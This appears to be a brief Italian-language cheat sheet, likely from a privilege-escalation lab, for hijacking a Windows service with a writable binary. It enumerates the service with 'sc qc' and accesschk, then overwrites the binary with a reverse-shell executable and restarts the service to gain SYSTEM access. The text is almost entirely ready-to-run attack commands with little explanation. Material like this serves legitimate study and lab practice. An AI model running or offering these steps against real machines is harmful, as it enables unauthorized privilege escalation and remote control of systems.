 ### **ENUMERATION**
Vedi il servizio
```powershell
sc qc <NOME>
```
Nota che runna come System (SERVICE_START_NAME)
Nota che il binario del servizio è scrivibile (BINARY_PATH_NAME)
```powershell
C:\PrivEsc\accesschk.exe /accepteula -quvw "<PATH>"
```
### **EXPLOIT**
Copia una revers shell e sovrascrivi il file
```powershell
copy C:\PrivEsc\reverse.exe "<PATH>" /Y
```
Restarta il servizio
```powershell
net start <NOME>
```

